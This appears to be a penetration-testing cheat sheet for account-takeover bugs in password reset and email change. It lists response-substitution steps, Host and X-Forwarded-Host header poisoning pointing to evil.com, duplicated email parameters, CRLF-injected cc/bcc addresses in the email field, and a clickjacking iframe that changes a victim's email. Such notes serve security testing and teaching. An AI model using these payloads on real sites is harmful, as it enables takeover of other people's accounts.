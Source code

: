 ### Forget Password Functionality
```
- Register an account as an attacker
- Change password and intercept success response of password change
- Register an account as a victim
- Try to change password and intercept the response
- Paste the attacker success response
```
```
- Click forgot password and put your email
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```

#### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```

Other Headers
```
X-Forwarded-For
X-Forwarded-Host
Referer
Origin
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=attacker@email&email=victim@email
- If response success then see which account password has been changed
```

```
- Click Forgot Password
- Enter victim@mail.com%0d%0accattacker@mail.com Or victim@mail.com%0d%0abccattacker@mail.com
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
